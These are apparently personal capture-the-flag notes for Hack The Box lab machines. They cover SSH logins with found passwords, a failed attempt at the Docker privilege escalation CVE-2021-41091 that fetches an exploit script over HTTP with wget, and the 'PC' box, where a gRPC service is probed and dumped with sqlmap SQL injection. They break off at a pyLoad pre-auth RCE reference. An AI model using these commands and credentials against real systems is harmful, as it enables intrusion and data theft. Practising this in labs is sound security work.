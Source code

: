 4. User flag
   * ssh marcus@10.10.11.211
     * PW: funkymonkey ![](https://hackmd.io/_uploads/rylmhqIc3.png)
5. Root flag
   * cat /var/mail/marcus
     * ![](https://hackmd.io/_uploads/SJ6faqIq2.png)
   * Docker version
     * ![](https://hackmd.io/_uploads/BJbh2qU92.png)
     * [VULN](https://github.com/UncleJ4ck/CVE-2021-41091)
   * upload the CVE exploit to the marcus ssh
   * LOCAL machine:
     * git clone https://github.com/UncleJ4ck/CVE-2021-41091
     * cd CVE-2021-41091
     * chmod +x ./exp.sh
     * python3 -m http.server 80
   * marcus:
     * wget http://\<LOCAL\_IP>/exp.sh ![](https://hackmd.io/_uploads/BJxElo8q3.png)
     * chmod +x exp.sh
     * ./exp.sh
       * yes
     * cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
     * ./bin/bash -p
       * NOTHING HAPPENS even after restarting machine
         * cant obtain root flag...

## PC

1. Reco

* `nmap -sVC 10.10.11.214 -Pn -p-`
  * 22 SSH
  * 50051 gRPC channel
    * [TOOL](https://github.com/fullstorydev/grpcui)

2. Weaponisation
   * grpcui -plaintext 10.10.11.214:50051
   * ![](https://hackmd.io/_uploads/HyzIFj8c3.png)
     * admin:admin
       * obtained token
3. Exploitation - run it in burpsuite - save the request as "sqli.req" - sqlmap -r sqli.req --dump ![](https://hackmd.io/_uploads/SJH3ti853.png) - admin:admin - sau:HereIsYourPassWord1431
4. User flag
   * ssh sau@10.10.11.214
     * PW: HereIsYourPassWord1431
   * ls
   * cat user.txt
5. Root flag
   * PE
     * nothing useful using linpeas.sh
       * cd
         * netstat -nltp
       * BUT running port 8000, service pyLoad
         * [VULN](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)
     * `ssh -L 8888:127.0.0.1:8000 sau@10.10.11.214`
       * access URL: 127.0.0.1:8888
         * ![](https://hackmd.io/_uploads/Hkva3iI9n.png)
     * pyload --version
       * pyLoad 0.5.0
         * [CVE](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
